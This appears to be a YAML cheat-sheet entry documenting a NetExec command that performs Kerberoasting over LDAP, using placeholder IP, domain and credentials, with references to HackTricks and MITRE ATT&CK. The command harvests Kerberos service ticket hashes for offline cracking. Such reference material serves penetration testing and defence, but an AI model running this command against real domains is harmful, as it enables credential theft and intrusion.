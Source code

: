 ```yaml
---
description: |
  NetExec (formerly CrackMapExec) performs a Kerberoasting attack via the LDAP service.
  This command authenticates with the given domain account, enumerates Service Principal Name (SPN) accounts, 
  and extracts their Kerberos ticket hashes, saving them into the specified file.
  The obtained hashes can later be cracked offline using brute force or wordlists.

  Command Reference:

  	Target IP: 10.10.10.1
  	Domain: test.local
  	Username: john
  	Password: password123
  	Output File: output.txt

command: |
  nxc ldap 10.10.10.1 -u 'john' -p 'password123' --kerberoasting output.txt
items:
  - Username
  - Password
  - Hash
services:
  - LDAP
OS:
  - Linux
  - Windows
attack_types:
  - Credential Access
  - Kerberoasting
references:
  - https://github.com/Pennyw0rth/NetExec
  - https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/kerberoast
  - https://attack.mitre.org/techniques/T1558/003/
---
```

